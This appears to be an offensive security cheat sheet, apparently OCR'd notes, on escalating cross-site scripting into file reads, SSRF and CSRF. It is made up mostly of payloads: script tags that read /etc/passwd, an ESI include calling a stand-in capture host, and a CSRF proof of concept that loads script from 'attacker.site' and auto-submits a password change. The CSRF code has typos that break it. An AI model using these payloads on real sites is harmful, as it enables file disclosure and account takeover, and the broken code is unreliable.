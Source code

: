    - XSS to RCE
        
        [https://swarm.ptsecurity.com/researching-open-source-apps-for-xss-to-rce-flaws/](https://swarm.ptsecurity.com/researching-open-source-apps-for-xss-to-rce-flaws/)
        
    - XSS to LFI
        
        ```jsx
        <script%00>
         x=new XMLHttpRequest;
         x.onload=function(){document.write(this.responseText)};
         x.open("GET","file:///etc/passwd");x.send();
         </script%00>
        
        <script>	x=new XMLHttpRequest;	x.onload=function(){ document.write(this.responseText)	};	x.open("GET","file:///etc/passwd");	x.send();</script>
        
        <img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
        <script>document.write('<iframe src=file:///etc/passwd></iframe>');</scrip>
        ```
        
    - XSS to SSRF
        
        ```python
        <esi:include src="<http://yoursite.com/capture>" />
        ```
        
    - XSS to CSRF
        
        - XSS to CSRF [ [https://link.medium.com/ct4S2BiJYwb](https://link.medium.com/ct4S2BiJYwb) ]
            
            POC : `[<https://vulnerable.site/profile.php?msg=><](<https://vulnerable.site/profile.php?msg=><script src=’https://attacker.site/attacker/script.js’></script>`
            
            ```jsx
            var csrfProtectedPage ='<https://vulnerable.site/profile.php>'
            var csrfProtectedForm ='form'
            //get valid token for current request
            var html = get(csrfProtectedPage);
            	document.getElementbyId(csrfProtectedForm);
            var token = form.token.value;
            
            //Build with valid token
            document.body.innerHTML+='form id="myform"action="+csrfProtectedPage+"method="POST">'+'<input id="password"name="name"value="hacked">'+'</form>';
            
            // Auto submit form
            document.forms["myfor"].submit();
            function get(url){
            var xmlHttp = new XMLHttpRequest();
            xamlHttp.open("GET", url.false);
            xmlHttp.send(null)
            return xmlHttp.responseText;
            }
            ```
            
        